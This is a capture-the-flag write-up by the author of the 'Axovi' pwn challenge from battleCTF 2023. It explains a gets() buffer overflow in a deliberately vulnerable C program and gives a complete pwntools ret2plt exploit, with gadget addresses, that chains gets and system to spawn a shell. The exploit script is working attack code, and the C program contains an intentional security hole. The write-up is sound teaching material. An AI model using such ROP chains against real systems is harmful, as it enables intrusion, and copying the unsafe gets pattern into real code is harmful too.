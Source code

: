 # Axovi Writeup [Pwn]

Attached file: [axovi](datas/axovi)

Africa battleCTF 2023 challenge, i wrote this pwn challenge for [battleCTF 2023](https://github.com/0xbugpwn/battleCTF-2023).

This challenge involves exploiting a simple C program that uses unsafe functions like gets, leading to a buffer overflow vulnerability. Participants are tasked with executing arbitrary commands on the server by exploiting a `ret2plt` attack.

#### Source Code Analysis:

```c
//gcc -o axovi axovi.c -no-pie
#include <stdio.h>
#include <stdlib.h>

int main(){

    system( "echo 'Welcome to Africa battleCTF.\nTell us something about : '" );
    char buf[0x30];
    gets( buf );

    return 0;
}

```

Output of checksec

![Checksec](datas/checksec.png)

Section 

![section](datas/section.png)

> [!IMPORTANT]  
> * **Buffer Overflow Vulnerability**: The gets function does not check the input length, allowing stack overflow if the input exceeds `48 bytes` (0x30).
>
> * **No Stack Protection**: The program lacks stack canaries or other protections.
>
> * **Fixed Executable Layout**: The binary is compiled without `PIE` (`-no-pie`), meaning function addresses like `system` and `gets` are fixed.
>
> * **Writable Memory**: The `.data` segment (0x404028) can be used to store strings passed later to `system`.



#### Exploitation Plan:

1. Overflow the Buffer: Construct a payload to overwrite the `saved return pointer` of the function.

2. ROP Chain with `ret2plt`:

		* Redirect execution to `gets()` to store a command (e.g., `/bin/sh`) in a `writable memory` location.


		* Redirect execution to `system()` with the address of the stored command.

3. Send the Payload: Deliver the payload and trigger the exploit.



#### Understanding ret2plt:

The ret2plt (return-to-Procedure Linkage Table) attack leverages functions in the binary's `PLT (Procedure Linkage Table)` to perform arbitrary actions. Unlike code injection, `ret2plt` relies on legitimate code already present in the program.

##### Gadgets and Addresses Used:

* **pop_rdi (0x4011bb)**: Loads the address of writable memory into the `RDI` register (first argument for gets and system).

* **gets@plt (0x401040)**: Used to read a command and store it in memory.

* **system@plt (0x401030)**: Used to execute the stored command.

* **writable_mem (0x404028)**: `.data` segment used to store the `/bin/sh` string.

![poprdi](datas/poprdi.png)

![function](datas/functions.png)

##### Constructing the Payload:

1. Overflow the buffer with 0x30 (`48 bytes`) plus 8 bytes for the saved base pointer (`RBP`).

2. Build a ROP chain:

	* `pop_rdi` -> `writable_mem` (to prepare the input for `gets`).

	* Call `gets()` to store the command (`/bin/sh`).

	* `pop_rdi` -> `writable_mem` (to prepare the argument for system).

	* Call `system()` with `/bin/sh`.


#### Exploit Code:

```python
from pwn import *

context.arch = 'amd64'

sh = process('./axovi')

if args.REMOTE:
	sh = remote("pwn.battlectf.online", 1002)

# Gadgets and addresses

pop_rdi =  0x00000000004011bb # pop rdi ; ret
gets_plt = 0x401040 # gets@plt
system_plt = 0x401030 # system@plt
writable_mem = 0x404028 # .data

# Building the payload
payload = b'a' * (0x30 + 8)  # Buffer overflow and overwrite return pointer
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(gets_plt)      # Call gets() to store /bin/sh
payload += p64(pop_rdi)       # Load writable memory address
payload += p64(writable_mem)
payload += p64(system_plt)    # Call system() with /bin/sh

# Interacting with the target
print(sh.recv().decode())
sh.sendline(payload)          # Send the payload
sh.sendline(b"/bin/sh")       # Provide the command to gets()
sh.interactive()              # Switch to interactive mode
```

![Exploit](datas/exploit.png)

#### Final Notes:

This challenge introduces participants to ret2plt exploitation, teaching:

* Buffer overflow analysis.

* Using ROP gadgets to achieve arbitrary command execution.
